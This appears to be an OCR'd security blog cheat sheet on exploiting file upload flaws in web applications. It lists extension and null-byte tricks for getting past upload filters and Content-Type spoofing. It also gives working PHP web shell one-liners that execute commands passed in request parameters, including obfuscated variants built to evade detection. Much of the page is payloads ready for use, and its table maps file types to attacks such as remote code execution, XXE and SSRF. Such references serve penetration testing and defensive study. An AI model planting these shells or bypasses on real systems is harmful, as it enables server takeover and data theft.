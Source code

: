 - https://0xcybery.github.io/blog/hacking-with-pdf##Introduction
- 
------------

---

### **File Upload Vulnerabilities and Exploitation**

---

#### **1. File Extension Bypass**
- **Blacklisted Extensions**:  
  - PHP: `.phtm`, `.phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`  
  - ASP: `.asp`, `.aspx`, `.cer`, `.asa`  
  - JSP: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`  
  - ColdFusion: `.cfm`, `.cfml`, `.cfc`, `.dbm`  
  - Random capitalization: `.pHp`, `.pHP5`, `.PhAr`  

- **Whitelisted Extensions**:  
  - Double extensions: `file.jpg.php`, `file.php.jpg`  
  - Null byte injection: `file.php%00.jpg`, `file.php\x00.jpg`  
  - Trailing characters: `file.php.....`, `file.php/`, `file.php.\`  
  - Other tricks: `file.php%20`, `file.php%0d%0a.jpg`, `file.`, `.html`  

- **IIS (Windows)**: Upload `.asp` files using `.cer` or `.asa` extensions.  

---

#### **2. Payloads for File Upload**
- **PHP Web Shells**:  
  ```php
  <?php system($_GET["cmd"]);?>  // Usage: ?cmd=ls
  <?=`$_GET[0]`?>                // Usage: ?0=command
  <?=`$_POST[0]`?>               // Usage: POST with "0=command"
  <?=`{$_REQUEST['_']}`?>        // Usage: ?_=command or POST with "_=command"
  ```
- **Obfuscated PHP Payloads**:  
  ```php
  <?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`;?>
  <?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
  ```

---

#### **3. Content-Type Manipulation**
- **Preserve filename but change content-type**:  
  - Use `Content-Type: image/jpeg`, `image/gif`, or `image/png` for malicious files.  

---

#### **4. Impact by File Extension**
- **Web Shell/RCE**: `.asp`, `.aspx`, `.php5`, `.php`, `.php3`  
- **Stored XSS/SSRF/XXE**: `.svg`, `.gif`  
- **CSV Injection**: `.csv`  
- **XXE**: `.xml`  
- **LFI/SSRF**: `.avi`  
- **HTML Injection/XSS**: `.html`, `.js`  
- **Pixel Flood Attack (DoS)**: `.png`, `.jpeg`  
- **RCE via LFI/DoS**: `.zip`  
- **SSRF/Blind XXE**: `.pdf`, `.pptx`  

---